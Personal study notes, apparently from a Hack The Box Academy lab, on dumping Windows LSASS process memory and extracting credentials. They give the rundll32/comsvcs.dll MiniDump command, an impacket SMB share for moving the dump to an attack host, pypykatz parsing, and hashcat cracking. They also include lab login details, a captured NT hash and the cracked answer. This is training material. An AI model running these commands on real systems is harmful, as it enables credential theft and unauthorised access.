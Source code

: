 
Reference the lessons on LSASS in [[Credential Storage#LSASS]] 




### Dumping LSASS Process Memory

>[! Note ] 
>Best to create a copy of the contents of LSASS process memory via a memory dump. This allows to extract credentials offline 

#### Task Manager Method:

`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`

- The above creates a file called `lsass.DMP` and is located in:
```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```
- Transfer `lsass.DMP` to the attack host via [[Attacking SAM#Syntax for smbserver.py]]


#### Rundll32.exe & Comsvcs.dll Method:

>[! Warning] Warning about this dumping method:
> Modern anti-virus will flag this action as malicious!

1) Determine the process ID assigned to lsass.exe in cmd or powershell

##### Find LSASS PID via CMD
```cmd
tasklist /svc
```

##### Find LSASS PID via Powershell
```powershell
Get-Process lsass
```

#### Creating lsass.dmp via Powershell

>[! Hint]
> Be sure to run powershell as admin

```powershell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```
	- rundll32.exe calls cmsvcs.dll 
	- which then calls MiniDump to dump LSASS process memory to the intended directory


### Extract Credentials via Pypykatz:
> [! Hint]
> [pypykatz](https://github.com/skelsec/pypykatz) is a python implementation of Mimikatz, allowing us to run it on Linux attack hosts

> [! Hint]
> Recall that LSASS stores credentials that have active logon sessions on Windows systems. When we dumped LSASS process memory into the file, we essentially took a "snapshot" of what was in memory at that point in time. If there were any active logon sessions, the credentials used to establish them will be present.

##### Running Pypykatz
```python
pypykatz lsa minidump /home/of/attack/host/Documents/lsass.dmp
```


This will result in subsection output for MSV, WDIGSET, Kerberos, DPAPI

MSV
- This is an authentication package that LSA calls to validate logon attempts against the SAM database.

WDIGEST
- Older authentication protocol enabled by default in Windows XP - Windows 8 and Windows Server 2003 -2012
- LSASS caches WDIGEST credentials in clear-text
- Microsoft patched this WDIGEST vulnerability and it is also disabled by default

Kerberos
- LSASS `caches passwords`, `ekeys`, `tickets`, and `pins` associated with Kerberos. 
- It is possible to extract these from LSASS process memory and use them to access other systems joined to the same domain.

DPAPI
- A set of APIs in Windows used to encrypt and decrypt DPAPI data blobs
- Mimikatz and Pypykatz can extract the DPAPI masterkey for logged-on users when their data is present in the LSASS process memory.
- The masterkey decrypts the secrets associated with the applications that use DPAPI below:

| Applications                | DPAPI Usage                                                                                 |
| --------------------------- | ------------------------------------------------------------------------------------------- |
| `Internet Explorer`         | Password form auto-completion data (username and password for saved sites).                 |
| `Google Chrome`             | Password form auto-completion data (username and password for saved sites).                 |
| `Outlook`                   | Passwords for email accounts.                                                               |
| `Remote Desktop Connection` | Saved credentials for connections to remote machines.                                       |
| `Credential Manager`        | Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more. |

> [! Note ] One user found
> In the example, only one user was found ,`Bob`, so no need to create a text file of hashes
>> ```go
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

## Questions

Username:
```go
htb-student
```

Password:
```go
HTB_@cademy_stdnt!
```

RDP:
```go
xfreerdp /v:10.129.224.38 /u:htb-student /p:HTB_@cademy_stdnt! /cert:ignore
```

1) What is the name of the executable file associated with the Local Security Authority Process?
```go
lsass.exe
```

2) Apply the concepts taught in this section to obtain the password to the Vendor user account on the target. Submit the clear-text password as the answer. (Format: Case sensitive)
```go
```

Create a share to connect back to your attack host and specify where to store the dump file:
```go
sudo impacket-smbserver -smb2support Attacking_LSASS ~/Documents
```

>[! Hint ]
>Reference [[Attacking SAM#Syntax for smbserver.py]] to move dump file to attack host share

RDP into the machine with the above xfreerdp command and create the dump file, `lsass.DMP`
![[Pasted image 20250508175203.png]]

On the windows machine, move the lsass.DMP file to the attack host share 
```go
move lsass.DMP \\AttackHostIP\Attacking_LSASS
```


Scroll down and you will see a LogonSession for the user  `Vendor`.
```go
== LogonSession ==
authentication_id 124843 (1e7ab)
session_id 0
username Vendor
domainname FS01
logon_server FS01
logon_time 2025-05-08T22:59:17.942120+00:00
sid S-1-5-21-2288469977-2371064354-2971934342-1003
luid 124843
        == MSV ==
                Username: Vendor
                Domain: FS01
                LM: NA
                NT: 31f87811133bc6aaa75a536e77f64314
                SHA1: 2b1c560c35923a8936263770a047764d0422caba
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [1e7ab]==
                username Vendor
                domainname FS01
                password None
                password (hex)
        == Kerberos ==
                Username: Vendor
                Domain: FS01
        == WDIGEST [1e7ab]==
                username Vendor
                domainname FS01
                password None
                password (hex)

```

Crack the NT hash
```go
hashcat -m 1000 31f87811133bc6aaa75a536e77f64314 /usr/share/wordlists/rockyou.txt --show

31f87811133bc6aaa75a536e77f64314:Mic@123
```


